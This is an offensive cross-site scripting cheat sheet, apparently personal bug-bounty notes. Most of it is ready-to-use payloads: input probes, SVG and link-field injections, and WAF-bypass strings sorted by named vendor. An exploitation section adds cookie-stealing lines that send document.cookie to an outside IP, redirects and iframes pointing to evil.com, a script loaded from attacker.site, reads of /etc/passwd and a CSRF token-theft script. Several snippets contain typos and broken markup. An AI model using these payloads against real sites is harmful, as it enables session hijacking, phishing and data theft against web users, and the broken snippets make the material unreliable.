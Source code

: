 # XSS

### Cross-site scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS enables attackers to inject client-side scripts into web pages viewed by other users.

**To Test any Input Field** ⇒ `h0tak88r’”><`

[XSS Polyglot payloads (github.com)](https://gist.github.com/michenriksen/d729cd67736d750b3551876bbedbe626)

- **DOM-based XSS**
    
    ```bash
    <html
    	<h1> You Searched for:</h1> 
    		 <div id ="searchquery"> </div> 
    			 <script>  **var** keyword = location.**search**.**substring**(3);  
    				document.querySelector('searchquery').innerHTML = keyword;  <script> 
    </html
    ```
    
    The above source code is an example of DOM based XSS.
    
- **Stored XSS via SVG file**
    
    is an example of a basic SVG file that will show a picture of a `rectang`
    
    ```bash
    <svg width="400" height="110">  <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> </svg><!--This means you can place an SVG file in an image tag and it will render perfectly:--><img src="rectangle.svg" alt="Rectangle" height="42" width="42"><!-- An example SVG file with an alert XSS payload can be found below:--><?xml version="1.0" standalone="no"?> <!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd"><svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg"> <rect width="300" height="100" style="fill:rgb(0,0,255);stroke-width:3;stroke:rgb(0,0,0)" /> <script type="text/javascript"> alert("Ghostlulz XSS"); </script></svg>
    ```
    
- **Stored XSS in (input-link) Field**
    - [ ]  Test if Hecheck For charackter or he search for [ http, https]
        - [ ]  `xhttps://google.com`
    - [ ]  `javascript:alert(0)//https://google.com`
    - [ ]  /?url=`javascript:alert(0)//https://google.com`
- **XSS Reflected in JSON Format and “{}” Forbidden**
    - [ ]  `/?q=test%2Aconsole.log(1337)//’;`
    
   ![image](https://user-images.githubusercontent.com/108616378/219940132-46f7abe3-2ac4-425d-aa29-09e54d2c62b4.png)
    
- **XSS Reflected in `<link>` OR `<input type=hidden>` attribute when add param**
    - [ ]  `/?lol=h0tak88r’accesskey=’x’onclick=’alert(0)’` But the Victim must click `ALT+SHIFT+X`
    
   ![image](https://user-images.githubusercontent.com/108616378/219940162-49b746e2-b5a2-46ff-bcd2-0d2755a131a8.png)
    
- **XSS in email section**
    
    ```html
    "hello<form/><!><details/open/ontoggle=alert(1)>"@gmail.com
    ```
    
- **XSS for .JSON endpoint [ bypass (`.html`)and `WAF` ]**
    - [ ]  `“resource Type” : “silent:nonexitsting”` Function
        
        ![image](https://user-images.githubusercontent.com/108616378/219940178-c7988e77-c51a-4e79-add2-e0b192d92e02.png)
        
    - [ ]  Use `url-encoded` payload with .`htm` extension and `//`   for break directory block too , So the server so the server didn’t understand my request fully
    - [ ]  POC
    
    ```html
    https://www.redacted.com/etc/designs/redacted.json//%3Csvg%20onload=alert(document.domain)%3E.html
    ```
    
- **XSS Bypass for Rich Text Editors**
    - [ ]  First, try all the built-in functions like bold, links, and embedded images.
    - [ ]  `<</p>iframe src=javascript:alert()//`
    - [ ]  `<a href="aaa:bbb">x</a>`
    - [ ]  `<a href="j%26Tab%3bavascript%26colon%3ba%26Tab%3blert()">x</a>`
- **WAF Bypass**
    
    ```html
    <style>*{background-image:url('\6A\61\76\61\73\63\72\69\70\74\3A\61\6C\65\72\74\28\6C\6F\63\61\74\69\6F\6E\29')}</style>
    %3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%22%58%53%53%22%29%3C%2F%73%63%72%69%70%74%3E
    [̕h+͓.＜script/src=//evil.site/poc.js>.͓̮̮ͅ=sW&͉̹̻͙̫̦̮̲͏̼̝̫́̕
    ---------------------------------------------
    "><input/onauxclick="[1].map(prompt)">
    <img src=x onerror=eval(atob('YWxlcnQoJ0kgb25seSB3cml0ZSBsYW1lIFBvQ3MnKQ==')) />
    '"--><Body onbeforescriptexecute="[1].map(confirm)">
    '-prompt.call(window, 'xss')-'
    <svg+onload=innerHTML=URL,outerHTML=textContent>#&ltimg/src/onerror=alert(domain)&gt
    <svg+onload=innerHTML=URL,outerHTML=textContent>#<img/src/onerror=alert(domain)>
    ---------------------------------------------------------
    <img src=x onVector=X-Vector onerror=alert(1)>
    %2sscript%2ualert()%2s/script%2u
    xss'"><iframe srcdoc='%26lt;script>;prompt`${document.domain}`%26lt;/script>'>
    -------------------------------------------------
    toString=\u0061lert;window+' '
    aaaaa<h1 onclick=alert(1)>test
    <noscript><p title="</noscript><img src=x onerror=alert(document.domain)>">
    ---------------------------------------------------------------
    # Unicode + HTML
    <svg><script>&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;(1)</script></svg>
    # URL
    <a href="javascript:x='%27-alert(1)-%27';">XSS</a>
    # Hex
    <script>eval('\x61lert(1)')</script>
    ----------------------------------------------------------
    # Only lowercase block
    <sCRipT>alert(1)</sCRipT>
    
    # Break regex
    <script>%0aalert(1)</script>
    
    # Double encoding
    %2522
    
    # Recursive filters
    <scr<script>ipt>alert(1)</scr</script>ipt>
    
    # Inject anchor tag
    <a/href="j&Tab;a&Tab;v&Tab;asc&Tab;ri&Tab;pt:alert&lpar;1&rpar;">
    
    # Bypass whitespaces
    <svg·onload=alert(1)>
    
    # Change GET to POST request
    
    # Imperva Incapsula
    %3Cimg%2Fsrc%3D%22x%22%2Fonerror%3D%22prom%5Cu0070t%2526%2523x28%3B%2526%25 23x27%3B%2526%2523x58%3B%2526%2523x53%3B%2526%2523x53%3B%2526%2523x27%3B%25 26%2523x29%3B%22%3E
    <img/src="x"/onerror="[JS-F**K Payload]">
    <iframe/onload='this["src"]="javas&Tab;cript:al"+"ert``"';><img/src=q onerror='new Function`al\ert\`1\``'>
    
    # WebKnight
    <details ontoggle=alert(1)>
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
    
    # F5 Big IP
    <body style="height:1000px" onwheel="[DATA]">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[DATA]">
    <body style="height:1000px" onwheel="[JS-F**k Payload]">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="[JS-F**k Payload]">
    <body style="height:1000px" onwheel="prom%25%32%33%25%32%36x70;t(1)">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="prom%25%32%33%25%32%36x70;t(1)">
    
    # Barracuda WAF
    <body style="height:1000px" onwheel="alert(1)">
    <div contextmenu="xss">Right-Click Here<menu id="xss" onshow="alert(1)">
    
    # PHP-IDS
    <svg+onload=+"[DATA]"
    <svg+onload=+"aler%25%37%34(1)"
    
    # Mod-Security
    <a href="j[785 bytes of (&NewLine;&Tab;)]avascript:alert(1);">XSS</a>
    1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
    <b/%25%32%35%25%33%36%25%36%36%25%32%35%25%33%36%25%36%35mouseover=alert(1)>
    
    # Quick Defense:
    <input type="search" onsearch="aler\u0074(1)">
    <details ontoggle="aler\u0074(1)">
    
    # Sucuri WAF
    1⁄4script3⁄4alert(¢xss¢)1⁄4/script3⁄4
    
    # Akamai
    1%3C/script%3E%3Csvg/onload=prompt(document[domain])%3E
    <SCr%00Ipt>confirm(1)</scR%00ipt>
    # AngularJS
    {{constructor.constructor(alert 1 )()}}
    ```
    
- **XSS Exploitation**
    
    ```html
    # Some XSS exploitations
    
    ## host header injection through xss
    hostheader: bing.com">script>alert(document.domain)</script><"
    
    ## URL redirection through xss
    document.location.href="http://evil.com"
    
    ## phishing through xss - iframe injection
    <iframe src="http://evil.com" height="100" width="100"></iframe>
    
    ## Cookie stealing through xss
    https://github.com/lnxg33k/misc/blob/master/XSS-cookie-stealer.py
    https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md
    <script>var i=new Image;i.src="http://172.30.5.46:8888/?"+document.cookie;</script>
    <img src=x onerror=this.src='http://172.30.5.46:8888/?'+document.cookie;>
    <img src=x onerror="this.src='http://172.30.5.46:8888/?'+document.cookie; this.removeAttribute('onerror');">
    
    ## file upload  through xss
    upload a picturefile, intercept it, change picturename.jpg to xss paylaod using intruder attack
    
    ## remote file inclusion (RFI) through xss
    php?=http://brutelogic.com.br/poc.svg - xsspayload
    
    ## convert self xss to reflected one
    copy response in a file.html -> it will work
    
    # XSS to SSRF
    <esi:include src="http://yoursite.com/capture" />
    
    # XSS to LFI
    <script>	x=new XMLHttpRequest;	x.onload=function(){ document.write(this.responseText)	};	x.open("GET","file:///etc/passwd");	x.send();</script>
    
    <img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
    <script>document.write('<iframe src=file:///etc/passwd></iframe>');</scrip>
    ```
    
    ### XSS to CSRF [ [https://link.medium.com/ct4S2BiJYwb](https://link.medium.com/ct4S2BiJYwb) ]
    
    POC : `[https://vulnerable.site/profile.php?msg=<](https://vulnerable.site/profile.php?msg=<script)scriptsrc=’https://attacker.site/attacker/script.js’></script>`
    
    ```jsx
    var csrfProtectedPage ='https://vulnerable.site/profile.php'
    var csrfProtectedForm ='form'
    //get valid token for current request
    var html = get(csrfProtectedPage);
    	document.getElementbyId(csrfProtectedForm);
    var token = form.token.value;
    
    //Build with valid token 
    document.body.innerHTML+='form id="myform"action="+csrfProtectedPage+"method="POST">'+'<input id="password"name="name"value="hacked">'+'</form>';
    
    // Auto submit form 
    document.forms["myfor"].submit();
    function get(url){
    var xmlHttp = new XMLHttpRequest();
    xamlHttp.open("GET", url.false);
    xmlGttp.send(null)
    return xmlHttp.responseText;
    }
    ```
    
- **XSS Polygots**
